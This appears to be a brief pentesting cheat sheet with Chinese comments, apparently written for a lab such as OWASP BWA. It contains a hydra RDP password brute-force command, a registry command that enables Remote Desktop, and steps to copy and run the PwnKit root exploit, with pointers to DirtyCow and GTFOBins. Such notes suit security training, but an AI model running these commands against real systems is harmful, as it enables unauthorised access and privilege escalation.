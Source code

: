 # RDP
xfreerdp
```bash
sudo dpkg –l | grep freerdp
# 全部都要2.3version以上
freerdp2-x11
libfreerdp2-2
libfreerdp-client2-2
```
hydra
```bash
hydra rdp://192.168.0.7 -l administrator -p 'Pa$$w0rd'
```
reg
```bash
# 遠桌開關
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```


# SSH
```bash

```

> owaspbwa
> https://code.google.com/archive/p/owaspbwa/wikis/UserGuide.wiki

> Pa$$w0rd123



# Privilledge Escalation
> PayloadsAllTheThings
```bash
sudo -l
# su    切換至目標帳號/需要目標帳號密碼
# sudo  預授權
#        是否需要驗證(自己的密碼)
#        路徑、檔名、參數  ex. /bin/target -i

# (ALL:ALL) ALL
sudo -i
# GTFOBins

```
Pwnkit
```bash
#低版本的通殺提權
uname -a

# ly4k/PwnKit/raw/main/PwnKit
scp PwnKit aleksander@192.168.0.70:~/.
chmod +x PwnKit
./PwnKit

# 一般kernel exploit希望執行的路徑有寫入權限(writable)
# expliot > trigger > vulnerable module > 執行payload > 提權
```
DirtyCow
```bash
# 更低版本的Linux
# https://www.exploit-db.com/exploits/40847
```